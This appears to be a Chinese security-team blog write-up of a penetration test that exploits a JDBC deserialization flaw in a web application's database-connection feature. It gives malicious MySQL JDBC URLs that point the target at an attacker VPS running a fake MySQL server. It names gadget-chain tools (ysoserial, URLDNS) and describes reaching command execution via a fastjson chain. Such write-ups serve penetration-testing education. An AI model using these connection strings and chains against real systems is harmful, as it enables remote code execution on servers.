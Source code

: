 #  一次JDBC反序列化漏洞   
 哈拉少安全小队   2025-02-10 10:40  
  
在一次测试中遇到了数据库连接功能，这种功能点一般会存在jdbc反序列化漏洞。  
  
特征点：  
  
这种数据库连接点一般会存在jdbc反序列化漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRImMNCIOvuN6toPOus15qZcKgicIdPB82jSCtDkJf9nBM9zS51xnkLLWA/640?wx_fmt=png&from=appmsg "")  
  
  
打法：  
  
先试试打h2不出网利用链。该利用链需要对方服务器导入了h2依赖包才能打。执行ping dnslog命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRICkoTDFUUg0wzvgGicLQEh7xXWs2qwD4cAicIGeKYxbAvza6REwyQGQFw/640?wx_fmt=png&from=appmsg "")  
  
然后测试连接，发送请求，看起来并没有收到dnslog请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI2kvjykt1snpHe4ahPv74x72sZaFk6e3C0PSRibBUyGiaichjBFZta6Ggw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIcdj2u45M3M5rLbecDhVS3aBnhzCCD7h9lpG8JUE6TJiaphAPlyFQnPw/640?wx_fmt=png&from=appmsg "")  
  
  
那就换着打常规的出网利用链。需要用到这个工具。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIpfxaePTbtSs7Gl6CenZJSztwIH0OeAgJUzuE8hMeCGs9Ficp4hrMwvg/640?wx_fmt=png&from=appmsg "")  
  
下载地址：https://github.com/4ra1n/mysql-fake-server/  
  
打个dnslog链，探测是否存在反序列化漏洞。  
  
  
先在自己的vps起一个服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRItiaQ7xgZJ4Pjs127z0Z3bl3JVxVl059mcBQ6pRhoqGra97sCErb6wsw/640?wx_fmt=png&from=appmsg "")  
  
在url处写入(目标服务器JDBC Version6.x时使用)  
  
jdbc:mysql://ip:port/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor  
  
（目标服务器JDBC Version8.x时使用)  
  
jdbc:mysql://ip:port/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor  
  
  
用户名处写入要打的urldns地址，密码可以随便写  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI5vRpYsFqyIzViahbGMkxzApabUHf8mZdtXFEUZiaOkZqeu9HMjsZ2yUQ/640?wx_fmt=png&from=appmsg "")  
  
VPS成功收到请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIybrzZYWfxZl5oJtXnHLOzF4hgRO8gqt6wSt2oiaN651eLia6lQ8Ze1KA/640?wx_fmt=png&from=appmsg "")  
  
dnslog收到回显  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRI8Yv1Uc94icicNltU9E8OLuua2GTejf6lIw8mVLEzLpJLLu6YaJA13xpA/640?wx_fmt=png&from=appmsg "")  
  
接下来可以试试打可以执行命令的链，例如cc链，cb链等。  
  
但是试了几个下来都没有成功执行命令，就是说目标服务器可能没有导入对应的依赖。（过程省略）  
  
  
刚好bp插件帮我扫到了druid未授权漏洞，可以通过druid未授权看看服务器里的组件有什么，就可以判断打什么链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIWNQtd992s7gMHGZq1bA9YgBd7khPMCftFBOklib04Pj1axNUU6jgw6g/640?wx_fmt=png&from=appmsg "")  
  
  
服务器导入的是commons-collections-3.2.2.jar版本，相较于之前的版本增加了一个安全检查，所以没办法直接打cc链。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIOWubux9cVJrTJiaDKzV5wsG7zCAyJMBBlXUMibBBpEEJDvPb4KsbxARg/640?wx_fmt=png&from=appmsg "")  
  
目标服务器还有c3p0，但是这个链不太好打jdbc反序列化，需要的前置条件比较多。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIUa21oTY519LXLk3y2c4zpPibibcrxKDuJKgD0KA43B2Oh1AOj9lZUWgg/640?wx_fmt=png&from=appmsg "")  
  
又发现了目标服务器使用了fastjson，看来可以直接打fastjson链了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIz03uUSIdsffJjcxednO7zHzp3cacZliadTsbng47p2yViaI4qqjQdD4g/640?wx_fmt=png&from=appmsg "")  
  
  
使用工具生成fastjson链，执行ping命令  
  
https://github.com/Lotus6/ysoserial  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIiaicQd4x9MZW5vO4BSMeMjOYDrbxF8SHrBEIExMgdD6ficmFaT8yWIxibA/640?wx_fmt=png&from=appmsg "")  
  
  
将base64编码的payload在vps上，这里我放到了test文件里  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIV1MW1kTtPsicTp04W180ysZrB7jqUxrZYYUnYicczcFWcdw1npRL7fvQ/640?wx_fmt=png&from=appmsg "")  
  
  
通过命令再次启动服务  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIwJjpB4GgSSY1PlW7WsiaqFxNEicjQaIqcgYMrSq8twAKFoWZ4tE0qleQ/640?wx_fmt=png&from=appmsg "")  
  
再次创建数据库连接，将用户名处改为deser_CUSTOM  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIYrcyLufCxDZXX5cdicj8qDzJKREz8RK0DVsPYj3HUeco0Q9NFwbafHg/640?wx_fmt=png&from=appmsg "")  
  
  
成功执行ping命令，拿下。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIcwrGsmEwrQzyDLKwnF1VgIpNweljLvPRkic9XRiaDd4wPdr8hvV7Q2MA/640?wx_fmt=png&from=appmsg "")  
  
  
补充：  
  
如果目标没有druid未授权，那么怎么知道目标服务器有什么链可以打呢？  
  
可以通过urldns链判断目标有什么利用链，如果存在某个指定的类，就进行dnslog请求，从而判断服务器有什么链，具体原理这里不细讲，有兴趣的可以看这个文章了解。  
  
https://mp.weixin.qq.com/s/KncxkSIZ7HVXZ0iNAX8xPA  
  
我们可以用珂师傅的工具  
  
https://github.com/kezibei/Urldns  
  
通过该工具生成base64编码的payload  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIXZblBKUWUAoTk6s3aojk6icHDeJibAzYTF6IEyffafwybTic9WWsEYUYQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIw1twj4hgTO7lho4iaQvYU7OZ9s2oHJ7mrCb9o9zMx3UqpCLia9j42cKA/640?wx_fmt=png&from=appmsg "")  
  
和刚才的步骤相同，放到vps上面，过程省略。成功把目标服务器信息回显出来。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9fpI9mbf7VKGpOT9icBvYRIsFaEDIAqtEaibPCfv6ZicibHq0PpGTic6QQuduibAF7fuUz9lwa6FE5mPBw/640?wx_fmt=png&from=appmsg "")  
  
  
